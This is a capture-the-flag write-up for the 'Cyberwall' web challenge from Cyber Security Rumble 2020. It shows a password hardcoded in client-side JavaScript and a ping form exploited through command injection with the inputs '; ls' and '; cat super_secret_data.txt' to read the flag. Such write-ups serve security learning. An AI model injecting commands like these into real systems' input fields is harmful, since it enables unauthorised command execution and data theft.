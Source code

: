 ```yaml
---
layout: post
title: "Cyberwall - Cyber Security Rumble CTF 2020"
author: cryptax
tags:
- CSR
- CTF
- 2020
- Web
---
```


# Cyberwall

- Category: web

*"We had problems with hackers, but now we got a enterprise firewall system build by a leading security company."* with a link to http://chal.cybersecurityrumble.de:3812.

## Web page http://chal.cybersecurityrumble.de:3812

The source code of the page reveals password `rootpw1337`:

```html

<!DOCTYPE html>
<html lang="de">
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
        <link rel="stylesheet" type="text/css" href="/static/login.css">
        <title>Cyberwall</title>
    </head>
    <body>
        <script type="text/javascript">
            function checkPw() {
              var pass = document.getElementsByName('passwd')[0].value;
              if (pass != "rootpw1337") {
                alert("This Password is invalid!");
                return false;
              }
              window.location.replace("management.html");
            }
...
```

## Debugging

The debugging section has an HTTP form with a text to submit (POST):

```html
<h1>Test Host Connection</h1>
<p>Send a ping to a host, to heck your connection.</p>
<form method="POST">
    <input type="text" name="target">
    <input type="submit" value="Ping!" />
</form>
```

The input of *text* is not correctly sanitized, so we try: `; ls`:

![](/images/csr20-cyberwall-ping.png)

Then, we try `; cat super_secret_data.txt`, which provides:

```
CSR{oh_damnit_should_have_banned_curl_https://news.ycombinator.com/item?id=19507225}
```

This is the flag :)
